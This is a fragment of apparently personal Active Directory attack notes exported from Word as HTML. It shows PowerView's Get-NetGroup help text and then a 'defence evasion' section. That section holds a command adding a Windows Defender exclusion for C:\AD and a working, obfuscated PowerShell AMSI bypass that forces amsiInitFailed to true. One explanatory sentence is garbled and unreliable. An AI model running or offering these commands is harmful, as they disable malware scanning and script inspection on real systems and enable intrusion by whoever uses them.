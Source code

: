  <li class=MsoNormal style='mso-list:l0 level1 lfo2;tab-stops:list .5in'><span
     style='mso-spacerun:yes'>    </span>&quot;<span class=GramE>show</span>-command
     Get-<span class=SpellE>NetGroup</span>&quot;.<o:p></o:p></li>
 <li class=MsoNormal style='mso-list:l0 level1 lfo2;tab-stops:list .5in'><span
     style='mso-spacerun:yes'>    </span>&quot;Update-Help<span class=GramE>&quot;<span
     style='mso-spacerun:yes'>  </span>--</span> update help system<o:p></o:p></li>
</ul>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>PS C:\AD\Tools&gt; get-help Get-<span class=SpellE>NetGroup</span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>SYNTAX<o:p></o:p></p>

<p class=MsoNormal><span style='mso-spacerun:yes'>    </span>Get-<span
class=SpellE>NetGroup</span> [[-<span class=SpellE>GroupName</span>]
&lt;String&gt;] [[-SID] &lt;String&gt;] [[-<span class=SpellE>UserName</span>]
&lt;String&gt;] [[-Filter] &lt;String&gt;] [[-Domain] &lt;String&gt;]<o:p></o:p></p>

<p class=MsoNormal><span style='mso-spacerun:yes'>    </span>[[-<span
class=SpellE>DomainController</span>] &lt;String&gt;] [[-<span class=SpellE>ADSpath</span>]
&lt;String&gt;] [-<span class=SpellE>AdminCount</span>] [-<span class=SpellE>FullData</span>]
[-<span class=SpellE>RawSids</span>] [-<span class=SpellE>AllTypes</span>] [[-<span
class=SpellE>PageSize</span>]<o:p></o:p></p>

<p class=MsoNormal><span style='mso-spacerun:yes'>    </span>&lt;Int32&gt;]
[[-Credential] &lt;<span class=SpellE>PSCredential</span>&gt;] [&lt;<span
class=SpellE>CommonParameters</span>&gt;]<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><b>Exclusion adding for specific path</b><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal>The local enhanced login and system word prescription and <span
class=SpellE>amsi</span> and script block logging.<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span style='mso-no-proof:yes'><![if !vml]><img width=948 height=360
src="test_files/image001.png"
alt="A screenshot of a computer&#10;&#10;Description automatically generated"
v:shapes="Picture_x0020_100"><![endif]></span><o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE>powershell</span> -<span class=SpellE>inputformat</span>
none -<span class=SpellE>outputformat</span> none -<span class=SpellE>NonInteractive</span>
-Command &quot;Add-<span class=SpellE>MpPreference</span> -<span class=SpellE>ExclusionPath</span>
'C:\AD'&quot;<o:p></o:p></p>

<p class=MsoNormal>&nbsp;<o:p></o:p></p>

<p class=MsoNormal><span class=SpellE>sET-ItEM</span> ( 'V'+'<span
class=SpellE>aR</span>' + 'IA' + 'blE:1q2' + '<span class=SpellE>uZx</span>' )
( [<span class=SpellE>TYpE</span>]( &quot;{1}{0}&quot;-F'F','<span
class=SpellE>rE</span>' ) ) ; ( <span class=SpellE>GeT-VariaBle</span> (
&quot;1Q2U&quot; +&quot;<span class=SpellE>zX</span>&quot; ) -<span
class=SpellE>VaL</span> ).&quot;A`ss`Embly&quot;.&quot;<span class=SpellE>GET`TY`Pe</span>&quot;((
&quot;{6}{3}{1}{4}{2}{0}{5}&quot; -f'Util','A','Amsi','.Management.','<span
class=SpellE>utomation</span>.','<span class=SpellE>s','System</span>' )
).&quot;<span class=SpellE>g`etf`iElD</span>&quot;( ( &quot;{0}{2}{1}&quot; -f'<span
class=SpellE>amsi</span>','d','<span class=SpellE>InitFaile</span>' ),(
&quot;{2}{4}{0}{1}{3}&quot; -f 'Stat','<span class=SpellE>i</span>','<span
class=SpellE>NonPubli</span>','<span class=SpellE>c','c</span>,' )).&quot;<span
class=SpellE>sE`T`VaLUE</span>&quot;( ${<span class=SpellE>n`ULl</span>},${<span
class=SpellE>t`RuE</span>} )<o:p></o:p></p>